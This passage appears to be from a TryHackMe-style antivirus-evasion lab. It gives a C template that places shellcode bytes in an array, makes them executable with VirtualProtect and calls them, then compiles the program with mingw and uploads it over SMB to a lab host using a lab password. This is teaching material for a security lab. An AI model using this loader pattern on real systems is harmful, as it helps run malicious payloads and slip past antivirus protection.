 ```c
```

injector_template for windows

```bash
#include <windows.h>
char stager [] = {

#Delete this line & line below!! example below: paste below #this line
"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50"

};
int main()
{
        DWORD oldProtect;
        VirtualProtect(stager, sizeof(stager), PAGE_EXECUTE_READ, &oldProtect);
        int (*shellcode)() = (int(*)())(void*)stager;
        shellcode();
}
```

Now let's compile it as an exe file:

Compile our C program for Windows

```
user@AttackBox$ i686-w64-mingw32-gcc calc.c -o calc-MSF.exe
```

Once we have our exe file, let's transfer it to the Windows machine and execute it. To transfer the file you can use smbclient from your AttackBox to access the SMB share at \\10.10.180.247\Tools with the following commands (remember the password for the **`thm`** user is **`Password321`**):

Copy calc-MSC.exe to Windows Machine

```
user@AttackBox$ smbclient -U thm '//10.10.180.247/Tools'smb: \> put calc-MSF.exe
```

This should copy your file in **`C:\Tools\`** in the Windows machine.

While your machine's AV should be disabled, feel free to try and upload your payload to the THM Antivirus Check at **`http://10.10.180.247/`**.


<img src="images/t5_1.png">
